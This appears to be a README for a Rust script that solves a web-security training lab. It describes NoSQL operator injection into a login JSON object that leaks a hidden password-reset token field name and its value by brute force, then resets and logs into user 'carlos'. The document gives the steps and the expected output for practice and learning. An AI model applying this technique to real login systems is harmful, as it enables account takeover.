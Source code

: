 ## Hack Steps

1. Fetch the forgot-password page
2. Extract the csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract the csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ cargo run
```

## Expected Output

```
⦗#⦘ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Determining the length of the 3rd field..
❯❯ Checking if length =  5
❯❯ Checking if length =  7
        .........
❯❯ Checking if length =  13 [ Correct length: 13 ]
⦗5⦘ Brute force the field name.. (0%)
⦗5⦘ Brute force the field name.. (47%): r s t w T  e
⦗5⦘ Brute force the field name.. (76%): res t wdT ken
                .........
⦗5⦘ Brute force the field name.. (100%): resetPwdToken
⦗6⦘ Determining the length of the 3rd field value..
❯❯ Checking if length =  4
❯❯ Checking if length =  9
                .........
❯❯ Checking if length =  16 [ Correct length: 16 ]
⦗7⦘ Brute force the field value.. (0%)
⦗7⦘ Brute force the field value.. (43%): 8  7  1 6   2 ad
⦗7⦘ Brute force the field value.. (75%): 8 e7 21 61fc2 ad
                .........
⦗7⦘ Brute force the field value.. (100%): 86e7721561fc20ad
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting the csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to hacked.. OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 The lab should be marked now as solved
```
